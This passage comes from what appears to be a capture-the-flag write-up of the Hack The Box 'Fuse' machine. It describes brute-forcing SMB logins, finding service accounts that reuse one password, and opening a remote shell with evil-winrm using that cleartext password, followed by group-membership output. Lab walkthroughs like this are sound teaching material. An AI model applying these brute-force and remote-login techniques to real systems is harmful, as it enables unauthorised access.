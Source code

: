Next I ran a brute force login attack against SMB after adding the new usernames and passwords to my lists.  I noticed that again there was more than one user sharing a password. Both `svc-print` and `svc-scan` service accounts used the same password.

## Initial Foothold

### Further enumeration

I tried using the winrm enumeration module in metasploit, but for some reason it returned no valid logins. After playing around with different things for awhile trying to get something to work, the colored text in ZSH saved me. I noticed that the `$` in the password were being interpreted as a special character by the terminal. Once I wrapped the password in single quotes I was able to login using `evil-winrm`.

```text
┌──(zweilos㉿kali)-[~/htb/fuse]
└─$ evil-winrm -u svc-print -p '$fab@s3Rv1ce$1' -i 10.10.10.193 -P 5985                             

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-print\Documents> ls
*Evil-WinRM* PS C:\Users\svc-print\Documents> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ==============================================
fabricorp\svc-print S-1-5-21-2633719317-1471316042-3957863514-1104


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
FABRICORP\IT_Accounts                      Group            S-1-5-21-2633719317-1471316042-3957863514-1604 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


```